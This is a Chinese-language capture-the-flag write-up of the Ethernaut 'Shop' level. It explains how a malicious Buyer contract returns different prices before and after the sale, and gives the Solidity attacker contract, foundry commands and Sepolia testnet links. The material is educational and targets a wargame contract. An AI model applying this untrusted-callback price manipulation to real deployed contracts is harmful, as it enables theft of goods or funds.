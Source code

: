 # Level 20

[The Ethernaut level 21](https://ethernaut.openzeppelin.com/level/21)

这一关的目的是以低于要求的价格从商店购买物品。合约中也没有实际支付，只是概念上的支出。

仔细阅读合约，`Shop` 合约定义了一个 `Buyer` 接口，但没有具体的实现。在 `buy` 函数中依赖了一个 `Buyer` 实例，且这个实例还是由 `msg.sender` 初始化的，即 `shop` 合约要求使用一个 `Buyer` 合约去购买(`buy`)，因此可以从这里做文章。

只要自己部署一个实现 `Buyer` 接口的合约，`price()` 根据不同状态返回不同的值。比如，当商品已售卖，返回1；商品未售卖，返回100（>=100）。

攻击者合约：
```
contract Attacker is Buyer {
    Shop level;

    constructor(address level_) {
        level = Shop(level_);
    }

    function price() external view returns (uint256) {
        return level.isSold() ? 1 : 100;
    }

    function attack() external {
        level.buy();
    }
}
```

执行脚本：
```
forge script script/Level21.s.sol:CallContractScript --rpc-url sepolia --broadcast
```

完整代码见：[这里](../../ethernaut/script/Level21.s.sol)

查询购买后的 `price`：(返回 1)
```
cast call 0x217464Bcc60Ae344273201a91E6568486c3a07EA \
"price()(uint256)" \
--rpc-url sepolia
```

链上记录：
- [level(`Shop`)](https://sepolia.etherscan.io/address/0x217464Bcc60Ae344273201a91E6568486c3a07EA)
- [Attacker(Buyer)](https://sepolia.etherscan.io/address/0xFB817CF418A06D94219F678021858B5218A78d52)
- [attack 交易](https://sepolia.etherscan.io/tx/0x1d961778a5a88a5c5eb667f73f3db7a774f3d1af1fc5554935ddd9f91ac884c9)